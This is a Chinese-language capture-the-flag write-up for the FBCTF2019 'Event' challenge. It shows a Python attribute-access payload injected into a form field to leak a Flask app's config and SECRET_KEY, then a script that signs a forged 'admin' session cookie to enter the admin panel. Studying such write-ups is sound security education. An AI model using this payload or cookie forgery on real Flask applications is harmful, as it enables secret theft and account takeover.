


# FBCTF2019-Event

首先打开网页，发现是一个登录注册页面，随便注册一个账号登录



发现可以其选项框可以选择显示添加的事件名或事件地址，尝试再次点击Admin panel

提示`You do not seem to be an admin, mixbp!`

可能需要伪造session然后admin用户登录。查看cookie

```
Cookie: events_sesh_cookie=.eJwlzjkOwkAMQNG7uE4xXsZLLhPN4hG0CakQdwcJ6Xev-W841pnXA_bXeecGx3PCDi4WHFHZgig1JEUnhxK7UpW2ui8bUlolcfX-g55YFzeZalJGWeVX5WYLsWFNJhRWN9LknBFBw7lXW2XwQpvojZhaV5FuDTa4rzz_MwifL6p2LK8.aDhH9w.CGL1GCM5eFB3ilwex2_UMJDMR0Q;user=Im1peGJwIg.aDhH9w.QZvQwJmBdMbNbtH1cF3f6JdW8ic
```

其中events_sesh_cookie很明显是.ejw开头，使用脚本解密

```
{'_fresh': True, '_id': '8479399537922e694e46d3962386254afb8f7c40a524868b623be15f3a4d6740c0f00f053a7f11a15e3214368726e3ed9992c83b57f0c3f17d18a232ab644b7a', 'user_id': '1'}
```

并没有什么身份验证的内容，若有可能是`'user_id': '1'`，猜测`admin`用户为`0`

尝试解密：

```
user=Im1peGJwIg.aDhH9w.QZvQwJmBdMbNbtH1cF3f6JdW8ic
```

解出来为：

```
mixbp
```

那很明显就要在user这里伪造session了。然后我们需要获取到`SECRET_KEY`的值

页面存在三个输入点：`event_name`、`event_address`、`event_important`，在提交时使用**BurpSuite**抓取数据包：

修改`event_important=__dict__`，发送数据包，得到回显：



现在就是查看配置文件得到`SECRET_KEY`

修改`event_important`

```
__class__.__init__.__globals__[app].config
```

得到回显：

```
<Config {
'ENV': 'production', 
'DEBUG': False, 
'TESTING': False, 
'PROPAGATE_EXCEPTIONS': None, 
'PRESERVE_CONTEXT_ON_EXCEPTION': None, 
'SECRET_KEY': 'fb+wwn!n1yo+9c(9s6!_3o#nqm&&_ej$tez)$_ik36n8d7o6mr#y', 
'PERMANENT_SESSION_LIFETIME': datetime.timedelta(days=31), 'USE_X_SENDFILE': False, 
'SERVER_NAME': None, 
'APPLICATION_ROOT': '/', 
'SESSION_COOKIE_NAME': 'events_sesh_cookie', 
'SESSION_COOKIE_DOMAIN': False, 
'SESSION_COOKIE_PATH': None, 
'SESSION_COOKIE_HTTPONLY': True, 
'SESSION_COOKIE_SECURE': False, 
'SESSION_COOKIE_SAMESITE': None, 
'SESSION_REFRESH_EACH_REQUEST': True, 
'MAX_CONTENT_LENGTH': None, 
'SEND_FILE_MAX_AGE_DEFAULT': datetime.timedelta(seconds=43200), 'TRAP_BAD_REQUEST_ERRORS': None, 
'TRAP_HTTP_EXCEPTIONS': False, 
'EXPLAIN_TEMPLATE_LOADING': False, 
'PREFERRED_URL_SCHEME': 'http', 
'JSON_AS_ASCII': True, 
'JSON_SORT_KEYS': True, 
'JSONIFY_PRETTYPRINT_REGULAR': False, 
'JSONIFY_MIMETYPE': 'application/json', 
'TEMPLATES_AUTO_RELOAD': None, 
'MAX_COOKIE_SIZE': 4093, 
'SQLALCHEMY_DATABASE_URI': 'sqlite:///my.db', 
'SQLALCHEMY_TRACK_MODIFICATIONS': False, 
'SQLALCHEMY_BINDS': None, 
'SQLALCHEMY_NATIVE_UNICODE': None, 
'SQLALCHEMY_ECHO': False, 
'SQLALCHEMY_RECORD_QUERIES': None, 
'SQLALCHEMY_POOL_SIZE': None, 
'SQLALCHEMY_POOL_TIMEOUT': None, 
'SQLALCHEMY_POOL_RECYCLE': None, 
'SQLALCHEMY_MAX_OVERFLOW': None, 
'SQLALCHEMY_COMMIT_ON_TEARDOWN': False, 
'SQLALCHEMY_ENGINE_OPTIONS': {}
}>
```

得到SECRET_KEY的值

```
fb+wwn!n1yo+9c(9s6!_3o#nqm&&_ej$tez)$_ik36n8d7o6mr#y
```

然后由于这里`"admin"`session的格式不是json格式的，所以要使用非常规的session加密脚本

```
from flask import Flask
from flask.sessions import SecureCookieSessionInterface

app = Flask(__name__)
app.secret_key = b'fb+wwn!n1yo+9c(9s6!_3o#nqm&&_ej$tez)$_ik36n8d7o6mr#y'

session_serializer = SecureCookieSessionInterface().get_signing_serializer(app)

@app.route('/')
def index():
    print(session_serializer.dumps("admin"))

index()
```

得到

```
ImFkbWluIg.aDhMiw.o6bkoyjK2KoU51Y3-WrUTTsonz0
```

将user替换，然后进入到Admin panel中，即可拿到flag
